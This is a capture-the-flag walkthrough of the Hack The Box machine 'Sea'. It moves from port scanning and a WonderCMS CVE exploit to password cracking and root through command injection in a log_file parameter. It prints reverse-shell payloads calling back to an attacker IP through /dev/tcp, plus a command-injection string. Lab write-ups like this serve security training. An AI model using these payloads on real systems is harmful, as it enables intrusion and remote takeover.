

# Sea Writeup - by Thammanant Thamtaranon  
- Sea is an easy Linux-based machine hosted on Hack The Box.

## Reconnaissance  
- We began by performing a full TCP port scan with version detection and OS fingerprinting using the command:  
  `nmap -A -T4 -p- 10.10.11.28`  
  
- We added `sea.htb` to our `/etc/hosts` file to enable hostname resolution.

## Scanning & Enumeration  
- We enumerated web directories with:  
  `dirsearch -u http://10.10.11.28`  
  
- The scan revealed a `/contact.php` page.  
  
- Further enumeration exposed additional directories.  
  
- We identified the website was running WonderCMS version 3.2.0.  
  

## Exploitation  
- Searching for vulnerabilities related to WonderCMS 3.2.0, we discovered **CVE-2023-41425**.  
- The WonderCMS login page was located at `/loginURL`, accessible at `http://10.10.11.28/loginURL`.  
- We obtained a public Proof of Concept (PoC) exploit and executed it successfully.  
  
- This yielded a shell with `www-data` privileges.  
  
- We enumerated users with `cat /etc/passwd`.  
  
- A password hash was discovered in `/var/www/sea/data/database.js`.  
- Using John the Ripper, we cracked the password hash.  
  
- We then SSH’d into the machine using the recovered credentials, logging in as user `amay`.  
- We obtained the **user flag**.  
- Running `sudo -l` showed that user `amay` could not run any commands with sudo privileges.  
- We checked for open services using:  
  `ss -tulpn`  
  
- Two ports of interest were identified: 8080 and 53173.  
- We focused on port 8080, suspected to be an internal service.  
- We created an SSH tunnel forwarding local port 8080 to the remote port 8080:  
  `ssh amay@sea.htb -L 8080:localhost:8080`  
  
- Through trial and error, we discovered that injecting `;id+#` into the `log_file` parameter returned the output of the `id` command, confirming command injection.  
  
- We replaced the command with a reverse shell payload:  
  `;bash -i >& /dev/tcp/10.10.16.11/4444 0>&1' #`  
- The root shell connection was unstable and immediately dropped.  
- To stabilize the shell, we modified the payload to use `nohup` and `setsid`:  
  `;nohup setsid bash -c 'bash -i >& /dev/tcp/10.10.16.11/4444 0>&1' >/dev/null 2>&1 & #`  
- `nohup` ensures the process keeps running if the parent exits, and `setsid` detaches it into a new session.  
  
- This granted us a stable root shell, allowing us to retrieve the **root flag** and complete the machine.
